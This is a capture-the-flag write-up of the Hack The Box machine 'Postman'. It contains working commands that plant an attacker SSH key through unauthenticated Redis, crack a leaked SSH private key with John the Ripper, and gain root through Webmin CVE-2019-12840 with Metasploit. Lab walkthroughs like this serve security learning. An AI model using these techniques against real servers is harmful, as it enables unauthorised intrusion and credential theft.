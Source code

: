 # Summary
The following ports were discovered to be open by a Nmap scan: 22, 80, 6379, and 10000.

10000, the standard port for running Webmin, a management control panel, was the port of interest. The Redis service, which was running on port 6379, is what gave me an initial foothold.

Redis is an open-source data structure tool that can be used as a cache, message broker, or distributed in-memory database. Redis shouldn't be publicly accessible to the internet since, if improperly configured, an attack could utilize SSH to connect straight into the victim server. This is the method I used to gain an initial foothold.

I was able to generate my own public-private key, write that key to a file, and then import that key into redis. While logged into redis, you can save that public key to **authorized_keys** file on the server. Finally, using that generated private key, SSH into the redis server.
 Post enumeration, a user named Matt was found, and this user created an id_rsa.bak file which contained his readable private SSH key. I took that key offline and cracked it with ssh2john and John the Ripper. Because Matt reuses his passwords, I was able to log into Webmin with his credentials. 

The running version of Webmin in this box is vulnerable to CVE-2019-12840, which any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges via the data parameter to update.cgi. I used a module in Metasploit to execute this and root the box.

## Nmap
```bash
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDem1MnCQG+yciWyLak5YeSzxh4HxjCgxKVfNc1LN+vE1OecEx+cu0bTD5xdQJmyKEkpZ+AVjhQo/esF09a94eMNKcp+bhK1g3wqzLyr6kwE0wTncuKD2bA9LCKOcM6W5GpHKUywB5A/TMPJ7UXeygHseFUZEa+yAYlhFKTt6QTmkLs64sqCna+D/cvtKaB4O9C+DNv5/W66caIaS/B/lPeqLiRoX1ad/GMacLFzqCwgaYeZ9YBnwIstsDcvK9+kCaUE7g2vdQ7JtnX0+kVlIXRi0WXta+BhWuGFWtOV0NYM9IDRkGjSXA4qOyUOBklwvienPt1x2jBrjV8v3p78Tzz
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIRgCn2sRihplwq7a2XuFsHzC9hW+qA/QsZif9QKAEBiUK6jv/B+UxDiPJiQp3KZ3tX6Arff/FC0NXK27c3EppI=
|   256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF3FKsLVdJ5BN8bLpf80Gw89+4wUslxhI3wYfnS+53Xd
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
|_http-title: The Cyber Geek's Personal Website
|_http-server-header: Apache/2.4.29 (Ubuntu)
6379/tcp  open  redis   syn-ack ttl 63 Redis key-value store 4.0.9
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

## Information Gathering
### Port 80
Port 80 (Apache httpd 2.4.29) is open displaying this webpage below.

![Pasted image 20220715151825](https://user-images.githubusercontent.com/55252902/179373833-dc5e676c-73aa-4296-97c7-7cd9db6484ff.png)

### Port 10000
Port 10000 is the default port for Webmin (MiniServ 1.910) , a web-based interface for system adminsitration for Unix. Navigating to that port gives me this page...

![Pasted image 20220715152050](https://user-images.githubusercontent.com/55252902/179373838-b8a9037c-f376-418e-8fb2-81ab09d96b92.png)

I will have to edit my /etc/hosts to file to include 10.10.10.160 - postman to be able to navigate to this page. This will take me to the login portal for Webmin.

![Pasted image 20220715152203](https://user-images.githubusercontent.com/55252902/179373843-d62f58b4-61d2-4c9d-a60f-92782119af95.png)

### Port 6379
This port runs the redis service, which I will need to learn more about since I am not very familiar with it. Hacktrickz is my go-to resource when I need to research things regarding penetration testing (https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis). I've always found this site to be reliable and helpful.

But for this box, the initial foothold will be through Redis and escalating from there. You can get RCE through Redis from SSH. To interact with Redis you can use Redis CLI.

To connect to the service

```bash
redis-cli -h 10.10.10.160
```

![Pasted image 20220715153813](https://user-images.githubusercontent.com/55252902/179373855-6b245e0c-ca35-4499-a8d3-2cebc32cdbf6.png)

The Redis service on this box is misconfigured to allow for unauthorized access and write permissions.

## Exploitation
I will need to generate an ssh public-private key on my machine.

```bash 
ssh-keygen -t rsa
```

![Pasted image 20220715153959](https://user-images.githubusercontent.com/55252902/179373866-0debdeae-1b6f-4bc6-a8a1-d6313b8ec6d3.png)

Next is to write the public key to a file 

```bash
(echo -e "\n\n"; cat ~/postman.pub; echo -e "\n\n") > key.txt
```
Or you can do this manually by adding two newlines to the top of the file and at the bottom and then saving out to a new text file.

![Pasted image 20220715154416](https://user-images.githubusercontent.com/55252902/179373890-bebd86e0-c530-44da-aacb-09145d17f9ab.png)

Now I will need to import the file into redis

```bash
cat postman.txt | redis-cli -h 10.10.10.160 -x set ssh_key
```

![Pasted image 20220715154620](https://user-images.githubusercontent.com/55252902/179373895-da954024-135d-4fac-a535-c62f60cbfad3.png)


Now back in Redis to run these commands...

```bash
config set dir /var/lib/redis/.ssh
```

```bash
config set dbfilename "authorized_keys"
```

```bash
save
```

![Pasted image 20220715154829](https://user-images.githubusercontent.com/55252902/179373911-4c94cbbf-9bdf-4c2b-ac53-bc034b289d08.png)

Now SSH into the Redis server with the private key

```bash
ssh -i postman redis@10.10.10.160
```

![Pasted image 20220715155119](https://user-images.githubusercontent.com/55252902/179373918-27c2b264-8ded-4221-a456-868b1005ba60.png)

The user.txt file located in /home/matt, unable to cat the file out. Will need escalate privileges to Matt.

There is too much to shift through to figure out a route for privilege escalation, so I am going to download [Linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20220710) into this machine.

![Uploading Pasted image 20220715160456.png…]()


![Pasted image 20220715160538](https://user-images.githubusercontent.com/55252902/179373929-ed8be361-d66d-4409-a7d0-3816026e8d46.png)

![Pasted image 20220715160754](https://user-images.githubusercontent.com/55252902/179373931-3558c3c3-2a62-4574-8d74-3b6808b0a5e9.png)

Matt created a backup of a private SSH Key in /opt/ and we are able to read it.

![Pasted image 20220715161228](https://user-images.githubusercontent.com/55252902/179373937-0b882ef8-a380-42bb-8ca2-bdc2fc9555de.png)

![Pasted image 20220715161351](https://user-images.githubusercontent.com/55252902/179373940-c6d1f86d-4eec-48d7-b986-5faa8da2fb53.png)

I am going to take this offline on my machine and crack it with John the Ripper.

### Cracking the hash offline
I kept getting this error when trying to use ssh2john, perhaps because at the time of doing this box I didn't have the latest version.

![Pasted image 20220716160313](https://user-images.githubusercontent.com/55252902/179373951-c819a16d-5e5f-4efa-9754-4be31bc9fad3.png)

But a quick google search from this [stackoverflow thread](https://stackoverflow.com/questions/69187685/getting-attributeerror-module-base64-has-no-attribute-decodestring-error-wh) solves the issue.  The function `decodestring()` is depreciated in python v3.9, instead you have to use [base64.decodebytes()](https://docs.python.org/3.9/library/base64.html#base64.decodebytes).

Now it works and I can crack it with John, going to crack it with the rockyou wordlist.

ssh2john postman.ssh.tx

![Pasted image 20220716160414](https://user-images.githubusercontent.com/55252902/179373978-3a25b158-8261-4c39-92c9-baa6af19ad8a.png)

![Pasted image 20220716161615](https://user-images.githubusercontent.com/55252902/179373981-6d3babb8-e24e-4e9a-aa61-0e75a7350ea1.png)

### Matt

Matt reuses passwords so I was able to log into Webmin with Matt's credentials.

![Pasted image 20220716162941](https://user-images.githubusercontent.com/55252902/179374005-bb75e6ec-afc1-4fd6-9c76-9e0320f5de92.png)

The Webmin version is 1.910 which has an authenticated RCE vulnerability - [CVE-2019-12840](https://nvd.nist.gov/vuln/detail/CVE-2019-12840)
I will be using Metasploit for this

![Pasted image 20220716163909](https://user-images.githubusercontent.com/55252902/179374012-1584b820-3281-4785-9da7-b7bb2e8a1c67.png)

Module options set...

![Pasted image 20220716164348](https://user-images.githubusercontent.com/55252902/179374023-c6733565-d726-44f3-8818-b365b826b003.png)

It wasn't working initially but I forgot to set SSL to true.

![Pasted image 20220716164624](https://user-images.githubusercontent.com/55252902/179374031-f0e608d8-dcd1-4e64-875c-ae97f59d2405.png)

![Pasted image 20220716164652](https://user-images.githubusercontent.com/55252902/179374036-303b173f-185f-4f76-83ab-d79ebda638b5.png)

### CVE-2019-12840
In Webmin through 1.910, any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges via the data parameter to update.cgi. 

[Proof of Concept](https://github.com/KrE80r/webmin_cve-2019-12840_poc/blob/master/CVE-2019-12840.py)

The exploit will log into Webmin with the provided credentials and fetch cookies.

![Pasted image 20220716165904](https://user-images.githubusercontent.com/55252902/179374047-a21b9f35-ee54-4634-a6f5-560166c4ce41.png)

Then the base64 encoded payload is then sent and executed at the referer url which is upgate.cgi with the feteched cookies and following headers. Payload generates a reverse TCP shell.

![Pasted image 20220716170358](https://user-images.githubusercontent.com/55252902/179374060-44b3ee05-4a28-4996-98e9-4c98ab6f5da7.png)

# Resources
[hacktricks 6379 - Pentesting Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce)

[Speedguide port 6379 details](https://www.speedguide.net/port.php?port=6739)

[Github - linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20220710)

[Redcis CLI documentation](https://redis.io/docs/manual/cli/)

[CVE-2019-12840](https://nvd.nist.gov/vuln/detail/CVE-2019-12840)

[CVE-2019-12840 PoC](https://github.com/KrE80r/webmin_cve-2019-12840_poc/blob/master/CVE-2019-12840.py)




